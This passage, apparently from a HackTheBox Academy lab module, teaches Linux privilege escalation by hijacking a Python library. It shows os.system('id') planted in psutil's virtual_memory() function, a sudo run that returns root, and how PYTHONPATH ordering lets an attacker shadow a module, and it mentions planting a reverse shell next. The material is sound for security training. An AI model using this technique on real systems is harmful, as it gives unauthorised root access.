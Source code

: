 def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
</code></pre>
<p>Now we can run the script with <code>sudo</code> and check if we get the desired result.</p>
<h4>Privilege Escalation</h4>
<pre><code class="language-shell-session">htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
</code></pre>
<p>Success. As we can see from the result above, we were successfully able to hijack the library and have our code inside of the <code>virtual_memory()</code> function run as <code>root</code>. Now that we have the desired result, we can edit the library again, but this time, insert a reverse shell that connects to our host as <code>root</code>.</p>
<hr/>
<h2>Library Path</h2>
<p>In Python, each version has a specified order in which libraries (<code>modules</code>) are searched and imported from. The order in which Python imports <code>modules</code> from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. We can see this by issuing the following command:</p>
<h4>PYTHONPATH Listing</h4>
<pre><code class="language-shell-session">htb-student@lpenix:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
</code></pre>
<p>To be able to use this variant, two prerequisites are necessary.</p>
<ol>
<li>The module that is imported by the script is located under one of the lower priority paths listed via the  <code>PYTHONPATH</code> variable.</li>
<li>We must have write permissions to one of the paths having a higher priority on the list.</li>
</ol>
<p>Therefore, if the imported module is located in a path lower on the list and a higher priority path is editable by our user, we can create a module ourselves with the same name and include our own desired functions. Since the higher priority path is read earlier and examined for the module in question, Python accesses the first hit it finds and imports it before reaching the original and intended module.</p>
<p>In order for this to make a bit more sense, let us continue with the previous example and show how this can be exploited. Previously, the <code>psutil</code> module was imported into the <code>mem_status.py</code> script. We can see <code>psutil</code>'s default installation location by issuing the following command:</p>
<h4>Psutil Default Installation Location</h4>
<pre><code class="language-shell-session">htb-student@lpenix:~$ pip3 show psutil

